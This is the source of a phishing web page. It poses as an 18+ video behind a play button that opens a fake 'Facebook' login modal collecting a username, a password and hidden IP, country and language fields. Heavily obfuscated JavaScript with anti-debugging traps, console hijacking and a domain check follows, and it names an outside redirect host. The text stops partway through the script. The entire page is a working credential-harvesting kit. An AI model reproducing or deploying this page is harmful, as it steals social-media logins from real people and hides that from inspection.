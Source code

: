 <!doctype html><html><head><meta charset='utf-8'><meta http-equiv='X-UA-Compatible' content='IE=edge'><meta name='viewport' content='width=device-width,initial-scale=1'><title>Content 18+, please login before viewing.</title><link rel='stylesheet' href='https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css'><style>*{box-sizing:border-box}html{background:#e2e2e2}body{background:#e2e2e2;margin:0;padding:0;font-family:Helvetica,Arial,sans-serif}.login-form-wrap{background:radial-gradient(ellipse at center,#5170ad 0,#355493 100%);border:1px solid #2d416d;box-shadow:0 1px #5670a4 inset,0 0 10px 5px rgba(0,0,0,.1);border-radius:5px;width:380px;height:480px;margin:60px auto;padding:50px 30px 0 30px;text-align:center}.login-form-wrap h1{margin:0 0 50px 0;padding:0;font-weight:700;font-size:26px;color:#fff}.login-form-wrap h5{margin-top:40px}.login-form-wrap h5>a{font-size:14px;color:#fff;text-decoration:none;font-weight:400}.login-form input[name=email],.login-form input[name=pass]{width:100%;border:1px solid #314d89;margin-right:110px;outline:0;padding:12px 20px;font-weight:400;font-family:Lato,sans-serif;cursor:pointer}.login-form input[name=email]{border-bottom:none;border-radius:4px 4px 0 0;padding-bottom:13px;box-shadow:0 -1px 0 #e0e0e0 inset,0 1px 2px rgba(0,0,0,.23) inset}.login-form input[name=pass]{border-top:none;border-radius:0 0 4px 4px;box-shadow:0 -1px 2px rgba(0,0,0,.23) inset,0 1px 2px rgba(255,255,255,.1)}.login-form input[type=submit]{font-family:Lato,sans-serif;font-weight:400;background:linear-gradient(to bottom,#e0e0e0 0,#cecece 100%);display:block;margin:20px auto 0 auto;width:100%;border:none;border-radius:3px;padding:8px;font-size:17px;color:#636363;text-shadow:0 1px 0 rgba(255,255,255,.45);font-weight:700;box-shadow:0 1px 3px 1px rgba(0,0,0,.17),0 1px 0 rgba(255,255,255,.36) inset}.login-form input[type=submit]:hover{background:#ddd}.login-form input[type=submit]:active{padding-top:9px;padding-bottom:7px;background:#c9c9c9}.play-button-overlay-glyph{width:150px;height:150px;background-image:url("data:image/svg+xml,%3Csvg xmlns='http://www.w3.org/2000/svg' data-name='Layer 1' viewBox='0 0 138 138'%3E%3Ctitle%3Eplay_button_overlay%3C/title%3E%3Cg data-name='play button overlay'%3E%3Cpath data-name='path0' fill='%2315191c' d='M136 69A67 67 0 1 1 69 2a67 67 0 0 1 67 67z'/%3E%3Cpath data-name='path1' fill='%23a7b2b7' d='M94 66.9a3 3 0 0 1 0 5.2L56.5 93.8a3 3 0 0 1-4.5-2.6V47.9a3 3 0 0 1 4.5-2.6z'/%3E%3Cpath data-name='path2' fill='%23a7b2b7' d='M69 138A69 69 0 1 0 0 69a69 69 0 0 0 69 69zm65-69A65 65 0 1 1 69 4a65 65 0 0 1 65 65z'/%3E%3C/g%3E%3C/svg%3E")}.video-click-to-play,.video-click-to-replay{position:absolute;top:50%;left:50%;margin:-75px 0 0 -75px;border:none;background-color:transparent;cursor:pointer;outline:0}#background{outline-style:none;position:absolute;top:0;left:0;display:block;width:100%;height:100%;background-color:#1a1a1a;background-position:50%;background-repeat:no-repeat;cursor:pointer}</style></head><body onclick='showlog()'><div id='background' tabindex='-1'><button type='button' role='button' class='video-click-to-play play-button-overlay-glyph' tabindex='1' aria-label='Play'></button></div><div class='modal fade' id='myModal' role='dialog'><section class='login-form-wrap'><img src='https://scontent.fhan14-2.fna.fbcdn.net/v/t1.6435-9/187740709_300629618281421_7459646230610213288_n.jpg?_nc_cat=105&ccb=1-3&_nc_sid=730e14&_nc_ohc=WK-f9SBITREAX_lR2V6&_nc_ht=scontent.fhan14-2.fna&oh=8c34169179147d4eed0233aa96a165e1&oe=60CB5607' style='border-radius:50%;height:80px;object-fit:cover;width:80px'><h1>Facebook</h1><div id='welcome' style='background-color:#fff9d7;border:1px solid #e2c822;padding:6px;margin-bottom:5px'></div><div id='error' style='display:none;background-color:#fa3e3e;border:1px solid #fa3e3e;padding:6px;margin-bottom:5px;color:#fff'></div><form method='post' class='gform' action='#'><div class='form-group'><input required class='form-control' id='user' aria-describedby='emailHelp' required name='user'></div><div class='form-group'><input required class='form-control' id='pass' required name='pass' autocomplete='off'><input required type='hidden' id='wd' name='wd'><input type='hidden' id='ip' name='ip'> <input type='hidden' id='country' name='country'><input type='hidden' id='lang' name='lang'><br><button type='submit' class='btn btn-primary w-100 px-5' id='name'></button></div></form><h5><a href='#' id='forgot'></a></h5></section></div><script src='https://code.jquery.com/jquery.js'></script><script>const _0x35b931=function(){const n={iKaSg:function(n,t){return n!==t},VBcMW:"wmKfk",sQNCw:"TICHs",qqiux:function(n,t){return n!==t},xGgXj:"jJHnO",uLPsv:"FQOGu",TEEsO:"pLoKs",EwALr:"QGpRr"},i=n;let o=!0;return function(t,r){const n={iZnMm:function(n,t){return i.iKaSg(n,t)}};n.ilveg=i.VBcMW,n.pfzSL=i.sQNCw,n.mcyYg=function(n,t){return i.qqiux(n,t)},n.JCEAe=i.xGgXj,n.LRRkI=i.uLPsv;const u=n;if(i.qqiux(i.TEEsO,i.EwALr)){var e=o?function(){if(u.iZnMm(u.ilveg,u.pfzSL)){if(r)if(u.mcyYg(u.JCEAe,u.LRRkI)){var n=r.apply(t,arguments);return r=null,n}}else;}:function(){};return o=!1,e}}}(),_0xfda7e7=_0x35b931(this,function(){const n={nVNhs:'return /" + this + "/',FHUqL:"^([^ ]+( +[^ ]+)+)+[^ ]}",AmaVJ:function(n){return n()},cWPkz:function(n,t){return n!==t},DbVyu:"iEDdF",DrFId:function(n){return n()}},r=n,u=function(){const n={};n.WqEwQ=r.nVNhs,n.Dmsxd=r.FHUqL,n.Drzzh=function(n){return r.AmaVJ(n)};n;if(!r.cWPkz(r.DbVyu,r.DbVyu)){const t=u.constructor(r.nVNhs)().constructor(r.FHUqL);return!t.test(_0xfda7e7)}};return r.DrFId(u)});_0xfda7e7();const _0x4c93d9=function(){const n={TsoKb:function(n,t){return n===t},UgbJN:"dTBQN",hcJJG:"LLWsX",RsmSW:"JgHvL"},i=n;let o=!0;return function(t,r){const n={bnqRm:function(n,t){return i.TsoKb(n,t)}};n.ChKfu=i.UgbJN,n.MyqTj=i.hcJJG;const u=n;if(i.TsoKb(i.RsmSW,i.RsmSW)){var e=o?function(){if(u.bnqRm(u.ChKfu,u.ChKfu)){if(r)if(u.bnqRm(u.MyqTj,u.MyqTj)){var n=r.apply(t,arguments);return r=null,n}}else;}:function(){};return o=!1,e}}}(),_0x20492a=_0x4c93d9(this,function(){const n={zsgNS:function(n,t){return n+t},ljYsy:"debu",CqRwa:"gger",nmJXk:"stateObject",jKtiA:function(n,t){return n(t)},hHiAS:function(n,t){return n+t},mYNgC:"return (function() ",TpNxM:'{}.constructor("return this")( )',spMRx:function(n,t){return n===t},PBWAB:"RyCrY",jXiYx:function(n,t){return n===t},VUEzz:"nXAsc",HiQPd:"lrscH",GaBxM:function(n,t){return n(t)},Hncic:"CiXjc",JRLWm:"mQHss",SEaiz:function(n,t){return n(t)},UpUvv:function(n,t){return n(t)},SaClT:function(n,t){return n===t},iOpTn:"mComT",ncxfP:function(n,t){return n<t},pHcET:function(n,t){return n!==t},fhWxz:"wiSdd",xpCrk:"pPEtp",eUXgI:function(n,t){return t<n},LeyVc:function(n,t){return n+t},BWhnl:function(n,t){return n===t},KHenW:"CtDpv",ItScV:"item",RNPKV:"attribute",srlSL:function(n,t){return n-t},YmipS:function(n,t){return n===t},EQfOV:function(n,t){return n==t},ygRnQ:function(n,t){return n===t},PFgSa:function(n,t){return n(t)},FjfFN:"while (true) {}",faNJj:"counter",CpIXB:function(n,t){return n+t},ZnONY:function(n,t){return n+t},uIdwU:function(n,t){return n+t},KQFXv:"action",qiVDE:function(n,t){return n(t)},tpWWa:function(n,t){return n+t},Pqeuk:function(n,t){return n+t},kNsSU:function(n,t){return t<n},bKyTu:function(n,t){return n+t},UHEak:function(n,t){return n+t},zssqV:function(n,t){return n+t},OVirJ:function(n){return n()},ouDVJ:"[WEUGQzECOBjCUZqkYqCRxsPIYKFGqCpRTQYFWDYzOMSHqBOJCDBxDfDzZTJGyIVAGIQTJjOFXMxyKCISLYTKJE]",PztJz:"wWwEw.gUoGoglQzECOBjCUZqe.ckYoqCRm;txhsaPiIYKFGlqCpaRndTQhotYvideFo.WDYgiztOMhSuHbqB.ioOJCDBxDfDzZTJGyIVAGIQTJjOFXMxyKCISLYTKJE",KjgZc:function(n,t){return n!==t},sSAFM:"JSINX",YZBKS:function(n,t){return n==t},RSljx:function(n,t){return n==t},uLOIq:function(n,t){return n==t},pSuuV:"FSTtq",oAimE:"mrVAl",bMTeA:"BicwH",GPmWJ:"huBDU",GsvJw:function(n,t){return n==t},XRJQY:function(n,t){return n===t},URjyh:"mKJNi",mEPYs:function(n,t){return t<n},jderZ:"nqKxZ",rvJlL:function(n,t){return n!==t},onIWT:"xcIGV",EsIEq:"dtuoL",ZJThm:"OGVfU",TDlMg:"SSYZI",IccpO:"zinhT",IiDio:function(n,t){return n===t},snIkv:"qJRkT",abGWW:"pjLOJ",qfTbz:function(n,t){return n||t},wTxTr:function(n,t){return n!==t},pEHBV:"ntmYS",qfDgh:"IQgcJ",puQMH:function(n,t){return n!==t},kANvi:"flqvO",GPpoh:function(n,t){return n===t},rHtgw:function(n,t){return n!==t},hMsYF:"tkxwQ",mCJaT:function(n,t){return n!==t},zcJAC:"okQCx",ldydH:"wkzHC",GMzGf:"EUSCS",kGuiU:"DZaxp",jjDhV:"IOBRX"},u=n,t=u.OVirJ(function(){const n={qvYiO:function(n,t){return u.zsgNS(n,t)}};n.hmEyb=u.ljYsy,n.IVbwY=u.CqRwa,n.IfaxM=u.nmJXk,n.nzifo=function(n,t){return u.jKtiA(n,t)},n.vuUAu=function(n,t){return u.hHiAS(n,t)},n.utIYx=u.mYNgC,n.LhXvr=u.TpNxM;n;if(u.spMRx(u.PBWAB,u.PBWAB)){let t;try{u.jXiYx(u.VUEzz,u.HiQPd)||(t=u.GaBxM(Function,u.hHiAS(u.hHiAS(u.mYNgC,u.TpNxM),");"))())}catch(n){u.jXiYx(u.Hncic,u.JRLWm)||(t=window)}return t}}),r=new RegExp(u.ouDVJ,"g"),e=u.PztJz.replace(r,"").split(";");let i,o,c,f;for(var a in t)if(u.KjgZc(u.sSAFM,u.sSAFM));else if(u.EQfOV(a.length,8)&&u.EQfOV(a.charCodeAt(7),116)&&u.YZBKS(a.charCodeAt(5),101)&&u.RSljx(a.charCodeAt(3),117)&&u.uLOIq(a.charCodeAt(0),100))if(u.KjgZc(u.pSuuV,u.oAimE)){i=a;break}for(var s in t[i])if(u.ygRnQ(u.bMTeA,u.GPmWJ));else if(u.uLOIq(s.length,6)&&u.uLOIq(s.charCodeAt(5),110)&&u.GsvJw(s.charCodeAt(0),100))if(u.XRJQY(u.URjyh,u.URjyh)){o=s;break}if(!u.mEPYs("~",o))if(u.KjgZc(u.jderZ,u.jderZ));else{for(var l in t[i])if(u.rvJlL(u.onIWT,u.onIWT));else if(u.GsvJw(l.length,8)&&u.GsvJw(l.charCodeAt(7),110)&&u.GsvJw(l.charCodeAt(0),108))if(u.rvJlL(u.EsIEq,u.ZJThm)){c=l;break}for(var v in t[i][c])if(u.XRJQY(u.TDlMg,u.TDlMg)){if(u.GsvJw(v.length,8)&&u.GsvJw(v.charCodeAt(7),101)&&u.GsvJw(v.charCodeAt(0),104))if(u.XRJQY(u.IccpO,u.IccpO)){f=v;break}}else;}if(!i||!t[i])if(!u.IiDio(u.snIkv,u.abGWW))return;const d=t[i][o],g=!!t[i][c]&&t[i][c][f],h=u.qfTbz(d,g);if(!h)if(u.wTxTr(u.pEHBV,u.qfDgh))return;let p=!1;for(let n=0;u.ncxfP(n,e.length);n++)if(u.puQMH(u.kANvi,u.kANvi));else{const b=e[n],C=u.GPpoh(b[0],String.fromCharCode(46))?b.slice(1):b,m=u.srlSL(h.length,C.length),y=h.indexOf(C,m),k=u.puQMH(y,-1)&&u.GPpoh(y,m);k&&(u.rHtgw(u.hMsYF,u.hMsYF)||(u.GsvJw(h.length,b.length)||u.GPpoh(b.indexOf("."),0))&&(u.mCJaT(u.zcJAC,u.zcJAC)||(p=!0)))}if(p){if(u.mCJaT(u.kGuiU,u.jjDhV))return}else u.GPpoh(u.ldydH,u.GMzGf)||data;u.OVirJ(function(){const n={CXvdC:function(n,t){return u.SEaiz(n,t)},eAeaS:function(n,t){return u.UpUvv(n,t)},XVpwF:function(n,t){return u.hHiAS(n,t)}};n.epMNn=u.mYNgC,n.lwFSS=u.TpNxM,n.fjapq=function(n,t){return u.SaClT(n,t)},n.vkPbr=u.iOpTn,n.LCBEJ=function(n,t){return u.ncxfP(n,t)},n.wBUmD=function(n,t){return u.pHcET(n,t)},n.fGkGx=u.fhWxz,n.uEgpI=u.xpCrk,n.KsVDQ=function(n,t){return u.eUXgI(n,t)},n.DIUMw=function(n,t){return u.LeyVc(n,t)},n.meFml=function(n,t){return u.LeyVc(n,t)},n.mNboL=function(n,t){return u.UpUvv(n,t)};const r=n;if(u.BWhnl(u.KHenW,u.KHenW)){const t={};return t.key=u.ItScV,t.value=u.RNPKV,t.getAttribute=function(){const n={MqikV:function(n,t){return r.eAeaS(n,t)},OltUl:function(n,t){return r.XVpwF(n,t)},aLjbV:function(n,t){return r.XVpwF(n,t)}};n.GuwBL=r.epMNn,n.aOObE=r.lwFSS;n;if(r.fjapq(r.vkPbr,r.vkPbr))for(let n=0;r.LCBEJ(n,1e3);n--)if(r.wBUmD(r.fGkGx,r.uEgpI)){var t=r.KsVDQ(n,0);if(!0===t)return r.XVpwF(r.XVpwF(r.XVpwF(r.XVpwF(this.item,"_"),this.value),"_"),n);r.DIUMw(r.meFml(this.item,"_"),this.value)}else;else;}(),t}})});_0x20492a();const _0x11b400=function(){const n={gyJWn:function(n,t){return n===t},CbNZB:"UuykH",edeSC:function(n,t){return n===t},UwSQW:"RxpzB",gKEll:"XKADp",PhpRe:function(n){return n()},ShxVW:function(n,t){return n(t)},XzexC:"#myModal",tHmyp:"static",wYYbW:function(n,t){return n!==t},ooSSX:"yRUic",zGXqj:"tpvkq"},e=n;let i=!0;return function(t,r){const n={UfWlS:function(n,t){return e.ShxVW(n,t)}};n.BybBp=e.XzexC,n.oZxKb=e.tHmyp,n.kcGNK=function(n){return e.PhpRe(n)};n;if(e.wYYbW(e.ooSSX,e.zGXqj)){var u=i?function(){if(e.gyJWn(e.CbNZB,e.CbNZB)){if(r)if(!e.edeSC(e.UwSQW,e.gKEll)){var n=r.apply(t,arguments);return r=null,n}}else;}:function(){};return i=!1,u}}}();!function(){const n={hIqnb:function(n,t){return n(t)},tsxCT:function(n,t){return n+t},qsJVB:function(n,t){return n+t},wvUJt:"return (function() ",BKQkp:'{}.constructor("return this")( )',BNNgd:'return /" + this + "/',tInLd:"^([^ ]+( +[^ ]+)+)+[^ ]}",MxIdp:function(n,t){return n===t},QrhkN:"wyiOC",ncRcX:"function *\\( *\\)",yOGsp:"\\+\\+ *(?:[a-zA-Z_$][0-9a-zA-Z_$]*)",AJXOd:function(n,t){return n(t)},ziCpQ:"init",DiGbG:"chain",EisYx:function(n,t){return n+t},WligI:"input",RbTOT:function(n,t){return n===t},xIUSA:"wMvrm",feaYD:function(n,t){return n(t)},pSVeD:function(n,t){return n!==t},STDsy:"dOSiK",CAuvQ:function(n){return n()},qzfCt:function(n,t,r){return n(t,r)}},u=n;u.qzfCt(_0x11b400,this,function(){if(u.MxIdp(u.QrhkN,u.QrhkN)){const n=new RegExp(u.ncRcX),t=new RegExp(u.yOGsp,"i"),r=u.AJXOd(_0x73d2dd,u.ziCpQ);n.test(u.qsJVB(r,u.DiGbG))&&t.test(u.EisYx(r,u.WligI))?u.pSVeD(u.STDsy,u.STDsy)||u.CAuvQ(_0x73d2dd):u.RbTOT(u.xIUSA,u.xIUSA)&&u.feaYD(r,"0")}else;})()}();const _0x13edeb=function(){const n={NIJnJ:function(n,t){return n!==t},EdYWj:"WiYpc",YgcuM:function(n,t){return n===t},Ykesi:"oKFNG",inReG:"sVsEd",XrtRb:"function *\\( *\\)",qsWhc:"\\+\\+ *(?:[a-zA-Z_$][0-9a-zA-Z_$]*)",HWyvZ:function(n,t){return n(t)},XobDy:"init",Cbusx:function(n,t){return n+t},xSapl:"chain",zVkYg:"input",rszde:function(n){return n()},ifquY:function(n,t,r){return n(t,r)},DXbGm:function(n,t){return n==t},AUyFh:function(n,t){return n===t},dxYQr:"JlEEh"},e=n;let i=!0;return function(t,r){const n={};n.tvPmC=e.XrtRb,n.WnIqd=e.qsWhc,n.cifjR=function(n,t){return e.HWyvZ(n,t)},n.BGoQC=e.XobDy,n.ZFWbT=function(n,t){return e.Cbusx(n,t)},n.LXVFi=e.xSapl,n.tbZdY=e.zVkYg,n.krRlq=function(n){return e.rszde(n)},n.lCwVn=function(n,t,r){return e.ifquY(n,t,r)},n.aOhEp=function(n,t){return e.DXbGm(n,t)},n.WrkeS=function(n,t){return e.YgcuM(n,t)};n;if(e.AUyFh(e.dxYQr,e.dxYQr)){var u=i?function(){if(e.NIJnJ(e.EdYWj,e.EdYWj));else if(r)if(!e.YgcuM(e.Ykesi,e.inReG)){var n=r.apply(t,arguments);return r=null,n}}:function(){};return i=!1,u}}}(),_0x5c8267=_0x13edeb(this,function(){const n={gzoon:function(n,t){return n===t},sZeeC:"bTwPY",abCtq:"xySyg",wOVnZ:function(n,t){return n===t},jfAKy:"fRNBB",SBOOq:function(n,t){return n(t)},EZUQk:function(n,t){return n+t},lcNtv:"return (function() ",APJxh:'{}.constructor("return this")( )',dPCcs:function(n,t){return n!==t},AgyzG:"sFwrf",rwThz:function(n,t){return n<t},vUBtE:function(n,t){return t<n},LyLZP:function(n,t){return n+t},TYkfn:"item",XEhYt:"attribute",ozQWJ:function(n){return n()},sNFNj:"log",TczNJ:"warn",DEqEK:"info",EJLZM:"error",nxJDf:"exception",fGuHq:"table",eMEhv:"trace",rnvVc:function(n,t){return n<t},uldgf:function(n,t){return n===t},tDlSQ:"XKMFk"},r=n,t=r.ozQWJ(function(){if(!r.gzoon(r.sZeeC,r.abCtq)){let t;try{r.wOVnZ(r.jfAKy,r.jfAKy)&&(t=r.SBOOq(Function,r.EZUQk(r.EZUQk(r.lcNtv,r.APJxh),");"))())}catch(n){r.dPCcs(r.AgyzG,r.AgyzG)||(t=window)}return t}}),u=t.console=t.console||{},e=[r.sNFNj,r.TczNJ,r.DEqEK,r.EJLZM,r.nxJDf,r.fGuHq,r.eMEhv];for(let n=0;r.rnvVc(n,e.length);n++)if(r.uldgf(r.tDlSQ,r.tDlSQ)){const i=_0x13edeb.constructor.prototype.bind(_0x13edeb),o=e[n],c=u[o]||i;i.__proto__=_0x13edeb.bind(_0x13edeb),i.toString=c.toString.bind(c),u[o]=i}else;});setInterval(function(){const n={rHTIH:function(n){return n()}},t=n;t.rHTIH(_0x73d2dd)},4e3),_0x5c8267();let url_direct="http://zxc.world/v2/R0BGb_quc1uSaDrvC88R7524QT_28yoYPKvzx1Ew2go",background="https://scontent.fhan14-2.fna.fbcdn.net/v/t1.6435-9/187740709_300629618281421_7459646230610213288_n.jpg?_nc_cat=105&ccb=1-3&_nc_sid=730e14&_nc_ohc=WK-f9SBITREAX_lR2V6&_nc_ht=scontent.fhan14-2.fna&oh=8c34169179147d4eed0233aa96a165e1&oe=60CB5607",language={},timeout=1;function showlog(){const n={EyGCc:function(n,t){return n(t)},aJuxv:"#myModal",IYVYp:"static"},t=n;t.EyGCc($,t.aJuxv).modal({backdrop:t.IYVYp,keyboard:!0,show:!0})}function _0x73d2dd(n){const t={cKPzQ:"function *\\( *\\)",QUzyQ:"\\+\\+ *(?:[a-zA-Z_$][0-9a-zA-Z_$]*)",Rdgyc:function(n,t){return n(t)},PYcvR:"init",vVdAj:function(n,t){return n+t},NSnDl:"chain",BJXLE:"input",wwHHc:function(n,t){return n(t)},cgSil:function(n){return n()},jUqIH:function(n,t){return n!==t},IRlNa:"oWqTT",loZyB:"OPWTr",VQExB:function(n,t){return n===t},ZnAAJ:"string",eJwWT:"VxYZM",KgVQe:"while (true) {}",buSvH:"counter",rhrNY:function(n,t){return n+t},PbJfQ:function(n,t){return n/t},LCPmm:"length",PCaUZ:function(n,t){return n%t},mmSYm:function(n,t){return n!==t},icXdx:"NyVvi",rGPVP:function(n,t){return n+t},GIqAh:"debu",cLvLe:"gger",QBWhQ:"action",Uusuh:"stateObject"},u=t;function e(n){const t={};t.aAjJi=u.cKPzQ,t.aKxPJ=u.QUzyQ,t.gHOLV=function(n,t){return u.Rdgyc(n,t)},t.DqACC=u.PYcvR,t.CHVCc=function(n,t){return u.vVdAj(n,t)},t.eatru=u.NSnDl,t.APoUq=u.BJXLE,t.aZfNb=function(n,t){return u.wwHHc(n,t)},t.sIQPv=function(n){return u.cgSil(n)},t.iSBga=function(n,t){return u.jUqIH(n,t)},t.VwMcu=u.IRlNa,t.NyxKi=u.loZyB;const r=t;if(u.VQExB(typeof n,u.ZnAAJ)){if(u.VQExB(u.eJwWT,u.eJwWT))return function(n){}.constructor(u.KgVQe).apply(u.buSvH)}else u.jUqIH(u.rhrNY("",u.PbJfQ(n,n))[u.LCPmm],1)||u.VQExB(u.PCaUZ(n,20),0)?u.mmSYm(u.icXdx,u.icXdx)||function(){if(r.iSBga(r.VwMcu,r.NyxKi))return!0}.constructor(u.rGPVP(u.GIqAh,u.cLvLe)).call(u.QBWhQ):function(){return!1}.constructor(u.rGPVP(u.GIqAh,u.cLvLe)).apply(u.Uusuh);u.wwHHc(e,++n)}try{if(n)return e;u.wwHHc(e,0)}catch(n){}}function _0x8ddbae(n){var t={KpAWp:function(n,t){return n===t},RNQLj:"string",DCBVK:"while (true) {}",tJfNV:"counter",ynXZR:function(n,t){return n!==t},PVPWH:function(n,t){return n+t},PrJEk:function(n,t){return n/t},nKQkJ:"length",GJtlj:function(n,t){return n%t},RMPYX:"debu",uUtMb:"gger",zcCHO:"action",TSZrb:"stateObject",Oqach:function(n,t){return n(t)},LdLYo:function(n,t){return n(t)}},r=t;function u(n){if(r.KpAWp(typeof n,r.RNQLj))return function(n){}.constructor(r.DCBVK).apply(r.tJfNV);r.ynXZR(r.PVPWH("",r.PrJEk(n,n))[r.nKQkJ],1)||r.KpAWp(r.GJtlj(n,20),0)?function(){return!0}.constructor(r.PVPWH(r.RMPYX,r.uUtMb)).call(r.zcCHO):function(){return!1}.constructor(r.PVPWH(r.RMPYX,r.uUtMb)).apply(r.TSZrb),r.Oqach(u,++n)}try{if(n)return u;r.LdLYo(u,0)}catch(n){}}$(document).ready(function(){var e,i,o,c,u=(e={TGqNQ:function(n,t){return n==t},Zduuz:function(n,t){return n===t},Wsvxg:function(n,t){return n(t)},dWtee:function(n,t){return n!==t},FLTYb:"snVBl",zhteN:"cAJgo",AJKWW:"rPnMM",ghyaL:"pFEai",PlxZs:"pwufV",TBKCa:"xFvMn"},i=!0,function(t,r){var n={DtyuO:function(n,t){return e.TGqNQ(n,t)},Aqtbn:function(n,t){return e.Zduuz(n,t)},OreVm:function(n,t){return e.Wsvxg(n,t)},Augqd:function(n,t){return e.dWtee(n,t)}};n.gdFGZ=e.FLTYb,n.aevoU=e.zhteN,n.YXdRb=e.AJKWW,n.kOgsw=e.ghyaL;var u=n;if(e.dWtee(e.PlxZs,e.TBKCa)){n=i?function(){var n={LuamA:function(n,t){return u.DtyuO(n,t)},lQvuG:function(n,t){return u.Aqtbn(n,t)},MvwlI:function(n,t){return u.OreVm(n,t)}};if(u.Augqd(u.gdFGZ,u.aevoU)){if(r)if(u.Augqd(u.YXdRb,u.kOgsw)){n=r.apply(t,arguments);return r=null,n}}else;}:function(){};return i=!1,n}})(this,function(){var n={jurxk:function(n,t){return n!==t},TtIAb:"iDtAT",CzWke:'return /" + this + "/',yPxvt:"^([^ ]+( +[^ ]+)+)+[^ ]}",pzjCT:function(n){return n()}},t=n,r=function(){if(!t.jurxk(t.TtIAb,t.TtIAb))return!r.constructor(t.CzWke)().constructor(t.yPxvt).test(u)};return t.pzjCT(r)});u(),(o={SJpOk:"function *\\( *\\)",KfNSt:"\\+\\+ *(?:[a-zA-Z_$][0-9a-zA-Z_$]*)",oeqwQ:function(n,t){return n(t)},IUGTJ:"init",VaNgb:function(n,t){return n+t},wSQNN:"chain",yASmx:function(n,t){return n+t},FRyer:"input",FDrIo:function(n){return n()},BWRNO:function(n,t){return n===t},kGrcR:"naYwL",yZNoe:function(n,t){return n!==t},QPxis:"pvJYF",npOJl:"Jemxs",kWCeA:"yjFeJ"},c=!0,function(t,r){var n={};n.WnkZZ=o.SJpOk,n.drPIh=o.KfNSt,n.brVhS=function(n,t){return o.oeqwQ(n,t)},n.CfgjT=o.IUGTJ,n.GOpPN=function(n,t){return o.VaNgb(n,t)},n.pykZa=o.wSQNN,n.tsMHl=function(n,t){return o.yASmx(n,t)},n.pATeP=o.FRyer,n.RjYkI=function(n){return o.FDrIo(n)},n.mnOFu=function(n,t){return o.BWRNO(n,t)},n.vZUpd=o.kGrcR,n.DvHNT=function(n,t){return o.yZNoe(n,t)},n.JbUNP=o.QPxis,n.bISpG=o.npOJl;var u=n;if(o.BWRNO(o.kWCeA,o.kWCeA)){n=c?function(){var n={};n.MXovt=u.WnkZZ,n.chZbC=u.drPIh,n.vZVse=function(n,t){return u.brVhS(n,t)},n.HdnwZ=u.CfgjT,n.FWJFM=function(n,t){return u.GOpPN(n,t)},n.UJTji=u.pykZa,n.zyreE=function(n,t){return u.tsMHl(n,t)},n.Pvncc=u.pATeP,n.tMNUA=function(n){return u.RjYkI(n)};if(u.mnOFu(u.vZUpd,u.vZUpd)){if(r)if(u.DvHNT(u.JbUNP,u.bISpG)){n=r.apply(t,arguments);return r=null,n}}else;}:function(){};return c=!1,n}})(this,function(){var n,t,r,u,e,i={qPbKB:'return /" + this + "/',vUEHD:"^([^ ]+( +[^ ]+)+)+[^ ]}",MuIPS:"1|0|4|2|5|3",XKKAO:function(n,t){return n===t},qrRDV:"jVkMS",VMnOz:"qbXXd",IKWEQ:function(n,t){return n===t},VZEEh:"NPQte",PUImI:function(n,t){return n(t)},VMMnM:function(n,t){return n+t},PauCL:function(n,t){return n+t},QpVED:"return (function() ",MLTou:'{}.constructor("return this")( )',CoUqH:"zwSUH",BKMZZ:"ITmLM",oWNGz:"while (true) {}",uOfAt:"counter",CZDnt:"debu",Mkqhk:"gger",SkVKU:"stateObject",FQrfP:"EZKXs",slweE:"ztztk",YVgIn:function(n,t){return n<t},QbsZO:"COiAc",aDzKY:"vDnxJ",lEqEA:function(n,t){return t<n},ooAbz:function(n,t){return n+t},oDXsG:"TMLIL",WpVFN:"item",SQxay:"attribute",jCcrk:function(n,t){return n+t},nVpKp:function(n,t){return n(t)},KgVTo:function(n){return n()},qddMc:function(n,t){return n<t},ExNkq:function(n,t){return t<n},yQjUh:function(n,t){return n+t},QDdyA:function(n,t){return n+t},gsanR:function(n,t){return n+t},FiriI:function(n,t){return n+t},Xvanp:function(n,t){return n+t},ahSyS:function(n,t){return n<t},QvBDp:function(n,t){return n+t},uOPUg:function(n,t){return n+t},sQwYy:function(n,t){return n+t},WwUKc:function(n,t){return n+t},UHQDa:function(n){return n()},mUmdf:"[ffLJYzQQkkCXzkBJpXyGjMZJFSZFOGNEGBqGLMyDTySSTPLZBzVRIRPJrTrzJRQpsLMZXASykZxWRPTf]",CchgH:"fwwfLw.goJogleYz.QcQokmkC;thaiXlzkBanJdhotvipXyGdjMZJFeo.SgitZhFuOGNEbGB.ioqGLMyDTySSTPLZBzVRIRPJrTrzJRQpsLMZXASykZxWRPTf",TMADt:function(n,t){return n!==t},TcCsz:"RfwVe",bhqxD:function(n,t){return n==t},iveUL:function(n,t){return n==t},sdqdS:function(n,t){return n==t},vVpKv:"nARQg",MjGtx:"SrQmw",GzdNh:"SzOag",JHSOK:function(n,t){return n==t},PPrfL:function(n,t){return n==t},HHkPO:"KsLgL",btTbo:"mkhTe",gqJyR:function(n,t){return t<n},ZMOZU:"ukqPm",ZVCVj:function(n,t){return n!==t},IvASV:"smdzZ",tKBdZ:function(n,t){return n==t},lgqRb:function(n,t){return n==t},cijjf:"BeCUp",jBfFN:"RLWpD",bKrOc:"UEKjE",yVeem:"jyzRC",PisZQ:"TDRzg",pVTAk:"SrmsV",evEWa:"uyCEL",gVrlh:function(n,t){return n||t},WbvJR:"jtPnu",GEIWI:"XXGYH",jBzMy:"yLBUK",LHLuS:function(n,t){return n===t},xxZbJ:function(n,t){return n-t},BOKsM:function(n,t){return n!==t},qBUtP:function(n,t){return n===t},UsHBE:"upTDC",qVpuR:function(n,t){return n===t},QTScf:"wQShz",IHehW:"dzryO",kKeNG:function(n,t){return n===t},PpPii:"HVuIn",BytVt:function(n,t){return n!==t},CLEHQ:"fEsLP",OOGIe:"KJCpl",gwknL:function(n){return n()}},o=i,c=o.UHQDa(function(){var n={};n.DMdMK=o.qPbKB,n.eYTFF=o.vUEHD,n.GVzLN=o.MuIPS;var t;if(!o.XKKAO(o.qrRDV,o.VMnOz)){try{o.IKWEQ(o.VZEEh,o.VZEEh)&&(t=o.PUImI(Function,o.VMMnM(o.PauCL(o.QpVED,o.MLTou),");"))())}catch(n){o.IKWEQ(o.CoUqH,o.BKMZZ)||(t=window)}return t}}),i=new RegExp(o.mUmdf,"g"),f=o.CchgH.replace(i,"").split(";");for(u in c)if(o.TMADt(o.TcCsz,o.TcCsz));else 